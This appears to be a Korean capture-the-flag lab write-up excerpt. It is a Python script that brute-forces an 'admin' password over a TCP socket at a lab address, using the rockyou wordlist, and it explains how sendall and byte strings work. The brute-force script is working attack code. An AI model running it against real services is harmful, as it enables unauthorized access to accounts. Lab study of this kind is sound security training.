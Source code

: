 ```python
import socket
import time

# 대상 서버 정보와 패스워드 리스트 경로
pyrat_IP = "10.10.247.143"
pyrat_PORT = 8000
wordlist = "/usr/share/wordlists/rockyou.txt"

def send_socket(ip: str, port: int, password: str) -> bool:
    try:
        # TCP 소켓 생성 및 서버 연결
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)  # 연결 타임아웃 5초
        s.connect((ip, port))
        # b -> 바이트로 변환 -> 소켓 통신 시 무조건 바이트로 전송해야 함
        s.sendall(b'admin\n')  # 사용자명(admin) 전송

        resp = s.recv(1024).decode(errors="ignore")  # 서버 응답 받기

        # 패스워드 입력 프롬프트 확인
        if "Password:" in resp:
            s.sendall(password.encode() + b"\n")  # 패스워드 전송 -> decode 바이트로 변환  -> 소켓 통신 시 무조건 바이트로 전송해야 함
            resp = s.recv(1024).decode(errors="ignore")  # 응답 받기

            # 로그인 성공/실패 판별
            if "success" in resp.lower() or "admin" in resp.lower():
                print(f"[+] Found! admin:{password} -> {resp.strip()}")  # 성공 시 출력
                return True
            else:
                print(f"[-] Failed: {password}")  # 실패 시 출력
    except Exception as e:
        # 연결 오류 발생 시 출력
        print(f"[!] Connection error for password '{password}': {e}")
    finally:
        # 소켓 자원 정리
        s.close()
    return False  # 실패 시 False 반환

def brut_pass():
    # 패스워드 리스트 파일을 한 줄씩 읽어서 시도
    with open(wordlist, "r", encoding="latin-1", errors="ignore") as file:
        for line in file:
            password = line.strip()  # 개행 제거
            if send_socket(pyrat_IP, pyrat_PORT, password):
                break  # 성공하면 반복 중단
            time.sleep(0.1)  # 서버 과부하 방지

if __name__ == "__main__":
    # 직접 실행 시 brut_pass 함수 호출
    brut_pass()
```

`sendall`은 소켓을 통해 데이터를 한 번에 모두 전송하는 함수입니다.  
여기서는 서버에 사용자명(`admin\n`)이나 패스워드(`password.encode() + b"\n"`)를 보낼 때 사용합니다.

- `s.sendall(b'admin\n')` → 서버에 "admin"이라는 문자열을 전송
- `s.sendall(password.encode() + b"\n")` → 서버에 패스워드 문자열을 전송

`sendall`은 데이터가 다 전송될 때까지 반복해서 보내주기 때문에, 네트워크 환경이 불안정해도 안전하게 쓸 수 있습니다.  
실제로 서버에 명령이나 인증 정보를 보낼 때 가장 많이 쓰는 방식입니다.

`b`는 파이썬에서 "바이트(byte) 문자열"을 의미합니다.

예를 들어, `b'admin\n'`은 일반 문자열이 아니라 컴퓨터가 네트워크로 바로 보낼 수 있는 바이트 데이터입니다.  
소켓 통신에서는 반드시 바이트 타입으로 데이터를 보내야 하므로,  
`'admin\n'` 앞에 `b`를 붙여서 바이트로 만들어 전송하는 겁니다.

정리하면:

- `b'admin\n'` → 바이트 타입, 소켓에 바로 전송 가능
- `'admin\n'` → 일반 문자열, 소켓에 직접 전송 불가

패스워드도 마찬가지로,  
`password.encode()`를 쓰면 문자열을 바이트로 변환해서 보낼 수 있습니다.
